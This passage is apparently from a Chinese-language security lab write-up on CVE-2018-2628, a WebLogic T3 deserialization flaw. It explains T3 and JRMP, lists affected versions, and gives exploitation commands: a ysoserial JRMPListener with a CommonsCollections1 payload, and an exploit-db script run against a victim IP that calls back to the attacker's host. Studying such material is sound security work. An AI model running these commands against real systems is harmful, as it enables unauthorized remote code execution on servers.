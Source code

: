 ![image-20200903150414323](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903150414323.png)

![image-20200903150500321](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903150500321.png)

但是out.print函数可以

![image-20200903150827216](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903150827216.png)





### CVE-2018-2628 Weblogic Server WLS Core Components中反序列化漏洞

##### 漏洞简介及影响范围

Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。Weblogic Server中的RMI 通信使用T3协议在Weblogic Server和其它Java程序（客户端或者其它Weblogic Server实例）之间传输数据, 服务器实例会跟踪连接到应用程序的每个Java虚拟机（JVM）中, 并创建T3协议通信连接, 将流量传输到Java虚拟机. T3协议在开放WebLogic控制台端口的应用上默认开启. 攻击者可以通过T3协议发送恶意的的反序列化数据, 进行反序列化, 实现对存在漏洞的weblogic组件的远程代码执行攻击.

JRMP:java remote method protocol，Java远程方法协议
JRMP是的Java技术协议的具体对象为希望和远程引用。JRMP只能是一个Java特有的,基于流的协议。相对于的RMI - IIOP的 ，该协议JRMP只能是一个对象的Java到Java的远程调用，这使得它依赖语言，意思是客户端和服务器必须使用Java。
JRMP:Java远程消息交换协议JRMP（Java Remote Messaging Protocol）
该协议基于TCP/IP，既然是作为信息交换协议，必然存在接收和发送两个端点，JRMPListener可以粗糙的理解为发送端，在本实验中意为攻击机上1099端口与weblogic靶机上的7001进行通信达到远程命令执行的目的。

影响范围

- Weblogic 10.3.6.0
- Weblogic 12.1.3.0
- Weblogic 12.2.1.2
- Weblogic 12.2.1.3

##### 利用过程

首先下载ysoserial，并启动一个RMI Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

![image-20200903160320907](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903160320907.png)

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：https://www.exploit-db.com/exploits/44553

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

![image-20200903152953529](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903152953529.png)
